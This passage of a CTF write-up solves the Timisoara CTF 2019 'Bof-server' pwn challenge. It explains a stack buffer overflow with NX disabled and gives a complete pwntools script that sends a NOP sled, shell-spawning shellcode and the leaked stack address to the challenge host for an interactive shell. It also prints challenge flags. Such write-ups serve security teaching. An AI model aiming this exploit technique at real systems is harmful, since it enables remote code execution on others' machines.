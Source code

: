 ```
Your access code is: TIMCTF{1_am_th3_c00kie_m0nsta}
```

**Flag:** `TIMCTF{1_am_th3_c00kie_m0nsta}`

## Bof-server (pwn)

> Today kids we learn how to write exploits for super-secure software: bof-server!  
> `nc 89.38.208.144 11112`  
> (non-standard flag format)

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/Timisoara%20CTF%202019%20Qualification%20Round/Binary%20Exploitation/Bof-server%20%5B100%5D){: .btn .btn--primary}

**Solution**

This is a standard buffer overflow shellcoding challenge. 

As usual, running `checksec` on the binary gives:
```   
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)    
   RWX:      Has RWX segments
```

`checksec` shows the `NX Bit` as disabled, which means shellcode can be executed. After running the binary, we see the following output:  

`Hello! Here is the stack address: 7fffffffdc60, enter your name please:`  

The binary prints out the starting address of the stack, and asks for input. We can use `pwntools` to generate the shellcode to execute shell. The payload contains the following:

1. Shellcode
2. Padding (Overflow the stack until RIP)    
3. Stack address (To jump to our shellcode and execute shell)

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./bof-server",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "89.38.208.144",
    "PORT" : 11112,
}

def exploit(p):
    padding = "\x90"*264
    shellcode = asm(shellcraft.sh())

    ru("stack address: " )
    address = int("0x" + r(12), 16)

    payload = "\x90"*50 
    payload += shellcode
    payload += "\x90"*(264-50-len(shellcode))
    payload += p64(address)
    sla("please: ", payload)
    p.interactive()

```